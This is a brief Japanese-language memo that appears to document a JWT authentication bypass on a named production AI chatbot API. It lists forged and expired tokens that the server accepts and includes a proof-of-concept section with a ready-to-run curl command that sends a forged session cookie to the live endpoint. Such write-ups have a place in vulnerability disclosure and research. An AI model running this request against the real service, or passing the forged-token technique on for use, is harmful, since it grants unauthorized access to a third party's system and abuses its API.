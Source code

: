 # 超ざっくりメモ 
Circles.life AI Chatbot API  ‑ `aistore-api.circles.life`

## TL;DR
- **JWT の署名検証 ≒ してない**
- **exp / iat / iss / externalId 全部無視**
- **payload 空でも OK**
- **つまり誰でも API 叩き放題**

---

## 1. どんな感じで通る？
| 送った JWT | 結果 |
|---|---|
| 正規（期限内） | 200 ✅ |
| 期限切れ | 200 ✅ |
| 署名 `AAAA...`（偽造） | 200 ✅ |
| `{"data":{}}` だけ | 200 ✅ |
| `hacked.hacked.hacked` | **403 ❌** ← ただし形式エラーっぽい |

→ **サーバーは「JWT であること」だけ見て、中身はスルー**

---

## 2. 最低限 PoC
```bash
# 1. 偽造 JWT を手で作る
python3 jwt_auth_bypass.py
# => Status: 200 で応答返る
```

簡易版ワンライナー
```bash
curl -k 'https://aistore-api.circles.life/v1/povo/aistore/chatbot/completions' \
  -H 'Cookie: session=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7fX0.aaaa' \
  -H 'Content-Type: application/json' \
  -d '{"user_prompt":"今何時？","feature_id":"ai_apps_chatbox"}'
```
